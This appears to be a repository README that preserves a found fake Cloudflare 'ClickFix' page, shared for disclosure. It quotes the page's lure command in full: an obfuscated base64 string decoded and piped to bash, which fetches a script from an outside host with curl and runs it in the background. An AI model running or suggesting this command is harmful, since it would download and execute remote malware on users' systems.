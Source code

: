 # CloudFlare-ClickFix

This repo contains a found fake malicious cloudflare page. Please don't use for malicious purposes. 

orginal contents of copy commands was:

echo "Y3VybCAtcyBodHRwczovL2dhbW1hLnBsYWluZmVuYXNzb2NpYXRlcy5jb20vc3RyaXgvaW5kZXgucGhwIHwgbm9odXAgYmFzaCAm" | base64 -d | bas[h]

